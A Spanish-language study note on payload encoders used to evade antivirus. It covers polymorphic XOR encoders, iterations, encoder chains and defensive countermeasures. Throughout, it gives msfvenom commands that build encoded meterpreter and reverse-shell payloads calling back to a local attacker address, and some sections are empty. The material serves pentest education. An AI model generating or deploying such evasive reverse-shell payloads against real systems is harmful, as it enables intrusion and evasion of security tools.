





## 📖 Definición

Un **encoder** (codificador) es un componente de software utilizado en **ciberseguridad ofensiva** para transformar un payload o shellcode mediante operaciones matemáticas y lógicas, con el objetivo de **ofuscar su contenido** y evadir sistemas de detección como antivirus, firewalls o sistemas de prevención de intrusiones (IPS).

> [!info] Concepto clave
> Los encoders no cifran el payload en el sentido criptográfico tradicional, sino que lo **reescriben** usando instrucciones equivalentes que producen el mismo resultado final pero con una firma binaria diferente.

---

## 🎯 Propósito y aplicaciones

### Usos principales

| Aplicación | Descripción |
|------------|-------------|
| **Evasión de antivirus** | Modificar la firma del payload para evitar detección por firmas estáticas |
| **Bypass de filtros** | Eliminar bytes prohibidos (bad characters) en exploits |
| **Ofuscación de código** | Ocultar la verdadera naturaleza del código malicioso |
| **Penetration testing** | Simular ataques sofisticados en auditorías de seguridad |

### Contextos de uso

- **Buffer Overflow**: Generación de shellcode sin bad characters
- **Desarrollo de malware**: Evasión de soluciones EDR/AV
- **Red Teaming**: Creación de payloads personalizados
- **Análisis forense**: Estudio de técnicas de ofuscación

---

## 🔧 Funcionamiento técnico

### Principio de operación



### Componentes de un payload codificado

1. **Decoder stub** (stub decodificador): Código pequeño que revierte la codificación
2. **Payload codificado**:  Shellcode transformado
3. **Clave de decodificación**: Parámetros para restaurar el código original (si aplica)

> [!warning] Importante
> El decoder stub debe estar **sin codificar** para poder ejecutarse.  Esto lo convierte en un vector de detección si el antivirus lo reconoce.

---

## 📊 Tipos de encoders

### Clasificación por método

| Tipo | Técnica | Nivel de evasión | Ejemplo |
|------|---------|------------------|---------|
| **XOR Básico** | Operación XOR con clave fija | ⭐ Bajo | `x86/countdown` |
| **XOR Polimórfico** | XOR con clave variable aleatoria | ⭐⭐⭐ Medio | `x86/shikata_ga_nai` |
| **Sustitución** | Reemplaza instrucciones por equivalentes | ⭐⭐ Bajo-Medio | `x86/call4_dword_xor` |
| **Metamórfico** | Reescribe completamente el código | ⭐⭐⭐⭐⭐ Muy alto | (Avanzado, fuera de Metasploit) |
| **Aritmético** | Usa sumas/restas en lugar de XOR | ⭐⭐ Medio | `x86/add_sub` |

---

## 🔀 Encoders polimórficos

### Definición

Los **encoders polimórficos** son aquellos que generan una **salida diferente en cada ejecución**, incluso cuando codifican el mismo payload. Logran esto mediante:

- **Claves aleatorias**: Cada vez usan una clave XOR distinta
- **Instrucciones variables**: Cambian el orden o tipo de operaciones
- **Relleno aleatorio** (padding): Añaden NOPs o instrucciones basura
- **Decoder stub variable**: El decodificador también cambia

> [!quote] Origen del término
> El término "polimórfico" proviene del griego *poly* (muchos) y *morphē* (forma), haciendo referencia a la capacidad de adoptar múltiples formas.

### Ventaja principal



Cada generación produce un **hash diferente**, impidiendo que los antivirus creen una firma estática efectiva.

---

## 🛠️ Ejemplos de encoders

### En Metasploit Framework

#### 1. **Shikata Ga Nai** (しかたがない)

> [!example] Shikata Ga Nai
> 
> **Nombre**: x86/shikata_ga_nai  
> **Arquitectura**: x86 (32-bit)  
> **Tipo**: Polimórfico XOR  
> **Calidad**: Excelente ⭐⭐⭐⭐⭐
> 
> **Significado**: "No hay remedio" o "no se puede evitar" en japonés. 

**Características:**
- Usa operaciones XOR con clave dinámica
- El decoder stub cambia en cada generación
- Permite múltiples iteraciones (`-i` flag)
- Uno de los más efectivos contra AV tradicionales

**Uso en msfvenom:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x86/shikata_ga_nai \
         -i 10 \
         -f exe \
         -o payload. exe
```

**Funcionamiento interno:**



---

#### 2. **Zutto Dekiru** (ずっとできる)

> [!example] Zutto Dekiru
> 
> **Nombre**: x64/zutto_dekiru  
> **Arquitectura**: x64 (64-bit)  
> **Tipo**: Polimórfico XOR  
> **Calidad**: Excelente ⭐⭐⭐⭐⭐
> 
> **Significado**: "Siempre se puede hacer" en japonés.

**Características:**
- Versión de Shikata Ga Nai para 64-bit
- Adaptado para arquitectura x86-64
- Igualmente efectivo que su predecesor

**Uso:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x64/zutto_dekiru \
         -i 5 \
         -f exe \
         -o payload_x64.exe
```

---

#### 3. **Fnstenv_mov**

> [!example] Fnstenv_mov
> 
> **Nombre**: x86/fnstenv_mov  
> **Arquitectura**: x86  
> **Tipo**: FPU GetPC  
> **Calidad**:  Bueno ⭐⭐⭐

**Características:**
- Usa instrucciones de FPU (Floating Point Unit)
- Método GetPC para obtener posición en memoria
- Menos detectable que encoders tradicionales

**Uso:**
```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -e x86/fnstenv_mov \
         -f elf \
         -o payload. elf
```

---

#### 4. **Call4_dword_xor**

> [!example] Call4_dword_xor
> 
> **Nombre**: x86/call4_dword_xor  
> **Arquitectura**: x86  
> **Tipo**: XOR con CALL  
> **Calidad**: Normal ⭐⭐

**Características:**
- Usa instrucciones CALL para ofuscación
- XOR de doble palabra (4 bytes)
- Más simple que Shikata Ga Nai

---

### Encoders para otros lenguajes

#### PowerShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e cmd/powershell_base64 \
         -f psh \
         -o payload. ps1
```

**Técnica**:  Codifica en Base64 el payload de PowerShell. 

---

#### PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e php/base64 \
         -f raw \
         -o shell.php
```

**Técnica**: Ofusca código PHP mediante Base64.

---

## 🔄 Iteraciones múltiples

### Concepto

Aplicar un encoder **múltiples veces** sobre el mismo payload incrementa la ofuscación. 



### Sintaxis

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x86/shikata_ga_nai \
         -i 15 \
         -f exe \
         -o payload_15iter.exe
```

**Parámetro**:  `-i 15` aplica 15 iteraciones del encoder.

### Ventajas y desventajas

| Aspecto | Ventaja | Desventaja |
|---------|---------|------------|
| **Evasión** | Mayor ofuscación | Diminishing returns después de ~10-15 iteraciones |
| **Tamaño** | N/A | Incrementa significativamente el tamaño del payload |
| **Rendimiento** | N/A | Más tiempo de decodificación en ejecución |
| **Detección heurística** | Puede evadir análisis superficial | Análisis profundo detecta el comportamiento |

> [!tip] Recomendación
> Entre **5-10 iteraciones** suele ser un balance óptimo entre evasión y practicidad.

---

## 🆚 Comparación de encoders

### Tabla comparativa

| Encoder | Arquitectura | Tipo | Polimórfico | Efectividad AV | Tamaño añadido |
|---------|--------------|------|-------------|----------------|----------------|
| `x86/shikata_ga_nai` | x86 | XOR | ✅ Sí | ⭐⭐⭐⭐ | ~20-50 bytes |
| `x64/zutto_dekiru` | x64 | XOR | ✅ Sí | ⭐⭐⭐⭐ | ~30-60 bytes |
| `x86/fnstenv_mov` | x86 | FPU GetPC | ❌ No | ⭐⭐⭐ | ~15-30 bytes |
| `x86/call4_dword_xor` | x86 | CALL+XOR | ❌ No | ⭐⭐ | ~10-25 bytes |
| `x86/countdown` | x86 | XOR simple | ❌ No | ⭐ | ~5-15 bytes |
| `cmd/powershell_base64` | CMD/PS | Base64 | ❌ No | ⭐⭐ | +33% tamaño |
| `php/base64` | PHP | Base64 | ❌ No | ⭐⭐ | +33% tamaño |

---

## 🛡️ Limitaciones y contramedidas

### Limitaciones de los encoders

> [!warning] Realidad actual
> Los antivirus y soluciones EDR modernas han evolucionado más allá de la detección por firmas estáticas: 

| Técnica de defensa | Cómo afecta a encoders |
|--------------------|------------------------|
| **Análisis heurístico** | Detecta comportamientos sospechosos del decoder stub |
| **Sandboxing** | Ejecuta el payload en entorno controlado y observa su decodificación |
| **Emulación de CPU** | Simula la ejecución para revelar el payload real |
| **Machine Learning** | Identifica patrones de encoders conocidos |
| **Análisis de entropía** | Detecta datos de alta entropía (indicativo de codificación) |

### Encoder chains (cadenas de encoders)

Para aumentar la efectividad, se pueden aplicar **múltiples encoders diferentes** en secuencia:

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x86/shikata_ga_nai \
         -i 5 \
         -e x86/fnstenv_mov \
         -i 3 \
         -f exe \
         -o payload_chain.exe
```

**Resultado**: El payload pasa por ambos encoders en capas, incrementando la complejidad.

---

## 🔗 Conceptos relacionados

- [[Shellcode]]: Código máquina que los encoders transforman
- [[msfvenom]]: Herramienta para generar payloads con encoders
- [[Buffer Overflow]]: Contexto donde se eliminan bad characters con encoders
- [[Antivirus Evasion]]: Disciplina donde los encoders son una técnica fundamental
- [[Payload]]: Contenido que se codifica para evasión
- [[Obfuscation]]: Técnica general de ocultamiento de código

---

## 📚 Ejemplos prácticos completos

### Ejemplo 1: Buffer Overflow con bad characters

```bash
# Generar shellcode sin bad characters usando encoder
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         --platform windows \
         -a x86 \
         -f py \
         -e x86/shikata_ga_nai \
         -b '\x00\x0a\x0d\x20' \
         EXITFUNC=thread
```

**Resultado**: Shellcode en formato Python sin los bytes `\x00`, `\x0a`, `\x0d`, `\x20`.

---

### Ejemplo 2: Evasión de antivirus con múltiples iteraciones

```bash
# Payload altamente codificado
msfvenom -p windows/meterpreter/reverse_https \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x86/shikata_ga_nai \
         -i 12 \
         -f exe \
         -o evasive_payload.exe
```

**Resultado**: Ejecutable con 12 capas de codificación polimórfica.

---

### Ejemplo 3: Encoder para arquitectura específica

```bash
# Linux 64-bit con encoder específico
msfvenom -p linux/x64/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -e x64/zutto_dekiru \
         -i 7 \
         -f elf \
         -o payload_linux64.elf
```

---

## 📖 Referencias históricas

> [!quote] Historia
> El primer encoder polimórfico ampliamente conocido fue **ADMmutate** (2001), creado por K2 para Linux.  Inspiró el desarrollo de encoders en Metasploit Framework. 

**Evolución cronológica:**



---

## 🎓 Resumen ejecutivo

| Aspecto | Descripción |
|---------|-------------|
| **Definición** | Herramienta de transformación de código para ofuscación |
| **Propósito principal** | Evadir antivirus y sistemas de detección |
| **Tipo más efectivo** | Encoders polimórficos (Shikata Ga Nai, Zutto Dekiru) |
| **Limitación clave** | Inefectivos contra análisis heurístico y sandboxing moderno |
| **Uso común** | Pentesting, desarrollo de exploits, red teaming |
| **Herramienta principal** | msfvenom (Metasploit Framework) |

---

> [!summary] Conclusión
> Los **encoders** son una pieza fundamental en el arsenal de técnicas de ofuscación de payloads, especialmente en escenarios de buffer overflow y evasión de antivirus tradicionales.  Aunque su efectividad ha disminuido frente a defensas modernas basadas en comportamiento y machine learning, siguen siendo relevantes en combinación con otras técnicas avanzadas de evasión. 